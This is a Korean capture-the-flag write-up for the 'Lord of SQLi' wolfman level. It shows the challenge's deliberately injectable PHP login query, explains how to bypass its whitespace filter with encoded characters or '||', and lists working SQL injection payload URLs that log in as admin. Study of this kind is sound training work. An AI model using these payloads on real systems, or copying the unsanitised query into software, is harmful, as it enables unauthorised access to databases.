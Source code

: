 # Lord of SQLi - wolfman
> query : select id from prob_wolfman where id='guest' and pw=''
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```
- GET방식으로 받고 '/ /i' 인 공백만 필터링한다.
- 그러나 보통 SQL쿼리를 작성 할 때 AND 나 OR를 작성하기 위해서는 공백이 필요하다.
### 1 
- 여기서 필터링하는 공백은 URL인코딩 값으로 %20 을 뜻하는 것이므로  
	%20을 제외한  %09, %0a, %0b, %0c, %0d, %a0, /**/ 으로 우회가 가능하다.  
	(원래는 괄호를 이용한 우회도 가능했지만 /prob|_|\.|\(\)/i 라는 정규식으로 필터링되어서 할 수 없다.)

### 2
- MySQL은 논리연산을 지원하는 것을 이용하여 푼다.
- ||, &&, 이런 것을 이용하여 푼다.
### payload
- 1.방법 풀이
> http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=%27 %0a or %0a id=%27admin%27%23  
> http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=%27 %09 or %09 id=%27admin%27%23  
> http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=%27 %0b or %0b id=%27admin%27%23  
> http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=%27 %0c or %0c id=%27admin%27%23  
> http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=%27 %0d or %0d id=%27admin%27%23  
> http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=%27 %a0 or %a0 id=%27admin%27%23  
> query : select id from prob_wolfman where id='guest' and pw='' or id='admin'#'  
- 2.방법 풀이  
> http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=%27||id=%27admin%27%23  
> query : select id from prob_wolfman where id='guest' and pw=''||id='admin'#'  